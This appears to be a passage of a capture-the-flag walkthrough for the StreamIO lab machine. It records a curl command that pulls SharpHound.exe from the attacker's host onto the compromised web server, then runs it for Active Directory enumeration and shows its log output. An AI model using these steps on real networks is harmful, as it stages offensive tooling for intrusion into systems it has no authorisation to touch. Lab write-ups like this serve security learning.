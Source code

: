 
# Prilige escalation to nikk37

Let me use bloodhound before everything else. 

I uploaded SharpHound with curl and execute it:


```bash
C:\inetpub\streamio.htb\admin>curl http://10.10.14.8:8081/SharpHound.exe -o SharpHound.exe    
curl http://10.10.14.8:8081/SharpHound.exe -o SharpHound.exe
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  885k  100  885k    0     0   548k      0  0:00:01  0:00:01 --:--:--  548k

C:\inetpub\streamio.htb\admin>ls
ls
'ls' is not recognized as an internal or external command,
operable program or batch file.

C:\inetpub\streamio.htb\admin>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is A381-2B63

 Directory of C:\inetpub\streamio.htb\admin

09/12/2022  04:08 PM    <DIR>          .
09/12/2022  04:08 PM    <DIR>          ..
02/22/2022  03:49 AM    <DIR>          css
02/22/2022  03:49 AM    <DIR>          fonts
02/22/2022  03:49 AM    <DIR>          images
06/03/2022  01:51 AM             2,401 index.php
02/22/2022  04:19 AM    <DIR>          js
06/03/2022  01:53 AM             3,055 master.php
02/23/2022  03:16 AM               878 movie_inc.php
09/12/2022  04:08 PM           906,752 SharpHound.exe
02/23/2022  03:16 AM               936 staff_inc.php
02/23/2022  03:16 AM               879 user_inc.php
09/12/2022  03:42 PM         1,964,032 winPEASx64.exe
               7 File(s)      2,878,933 bytes
               6 Dir(s)   7,156,715,520 bytes free

C:\inetpub\streamio.htb\admin>SharpHound.exe
SharpHound.exe
2022-09-12T16:09:02.1408479-07:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2022-09-12T16:09:02.1564500-07:00|INFORMATION|Initializing SharpHound at 4:09 PM on 9/12/2022
2022-09-12T16:09:02.3126927-07:00|INFORMATION|Flags: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2022-09-12T16:09:02.4845686-07:00|INFORMATION|Beginning LDAP search for streamIO.htb
2022-09-12T16:09:02.5314943-07:00|INFORMATION|Producer has finished, closing LDAP channel
2022-09-12T16:09:02.5314943-07:00|INFORMATION|LDAP channel closed, waiting for consumers
2022-09-12T16:09:32.6897120-07:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 36 MB RAM
2022-09-12T16:09:48.2155592-07:00|INFORMATION|Consumers finished, closing output channel
2022-09-12T16:09:48.2468117-07:00|INFORMATION|Output channel closed, waiting for output task to complete
Closing writers
2022-09-12T16:09:48.6062227-07:00|INFORMATION|Status: 97 objects finished (+97 2.108696)/s -- Using 40 MB RAM
2022-09-12T16:09:48.6062227-07:00|INFORMATION|Enumeration finished in 00:00:46.1228053
2022-09-12T16:09:48.7311860-07:00|INFORMATION|SharpHound Enumeration Completed at 4:09 PM on 9/12/2022! Happy Graphing!
```